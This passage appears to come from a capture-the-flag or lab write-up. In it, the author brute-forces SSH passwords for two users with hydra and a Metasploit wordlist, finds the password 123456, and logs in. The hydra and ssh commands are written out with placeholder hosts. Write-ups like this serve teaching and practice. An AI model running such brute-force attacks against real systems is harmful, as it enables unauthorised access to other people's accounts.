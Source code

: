 # Other access methods

To learn more about how the system works, and possibly other vectors of exploits, I decided to further explore the web application.

### Brute forcing SSH password

As we have seen previously, there are 2 users that stands out in the `/etc/passwd` file: _joshua_ and _charles_. I attempted a password brute force attack on their SSH login with the wordlist from Metasploit `/usr/share/wordlists/metasploit/unix_passwords.txt` :

{% code overflow="wrap" %}
```sh
$ hydra -l joshua -P <wordlist> -t 6 ssh://<host>
$ hydra -l charles -P <wordlist> -t 6 ssh://<host>
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I found the password _**123456**_ for both usernames `joshua` and `charles`. We can now SSH with the usernames and gain a remote shell:

```sh
$ ssh <user>@<host>
```

